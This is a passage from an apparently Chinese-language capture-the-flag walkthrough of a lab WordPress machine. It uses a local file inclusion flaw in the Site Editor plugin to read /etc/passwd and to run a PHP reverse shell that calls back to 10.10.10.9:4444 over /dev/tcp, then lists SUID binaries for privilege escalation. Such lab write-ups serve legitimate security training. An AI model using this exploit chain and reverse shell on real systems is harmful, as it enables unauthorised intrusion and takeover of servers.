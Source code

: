 #### `searchsploit wordpress -m 44340`
>下载利用镜像,利用中提到以下的网址存在一个本地文件包含漏洞
```
http://10.10.10.10/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```
>利用之前的网络共享文件夹/home/dpwwn02_mo

> 生成php反弹shell
#### `echo '<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.9/4444 0>&1 '"); ?>' > shell.php `

> 将文件拷贝到 共享文件夹dpwwn02_mo中，kali监听
#### `sudo cp shell.php ./dpwwn02_mo`
> 利用之前的本地文件包含漏洞执行shell
```
http://10.10.10.10/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/home/dpwwn02/shell.php
```
> 成功得到shell

## 2.4 提权
> whoami查询发现是www-data用户，利用suid提权

#### `find / -perm -u=s -type f 2>/dev/null`
发现find是有suid权限的
```
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/find
/usr/bin/sudo
/usr/bin/mount
/usr/bin/at
/usr/bin/chfn
/usr/bin/su
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/mount.nfs
/snap/core22/864/usr/bin/chfn
/snap/core22/864/usr/bin/chsh
/snap/core22/864/usr/bin/gpasswd
/snap/core22/864/usr/bin/mount
/snap/core22/864/usr/bin/newgrp
/snap/core22/864/usr/bin/passwd
/snap/core22/864/usr/bin/su
/snap/core22/864/usr/bin/sudo
/snap/core22/864/usr/bin/umount
/snap/core22/864/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core22/864/usr/lib/openssh/ssh-keysign
/snap/core/16202/bin/mount
/snap/core/16202/bin/ping
/snap/core/16202/bin/ping6
/snap/core/16202/bin/su
/snap/core/16202/bin/umount
/snap/core/16202/usr/bin/chfn
/snap/core/16202/usr/bin/chsh
/snap/core/16202/usr/bin/gpasswd
/snap/core/16202/usr/bin/newgrp
```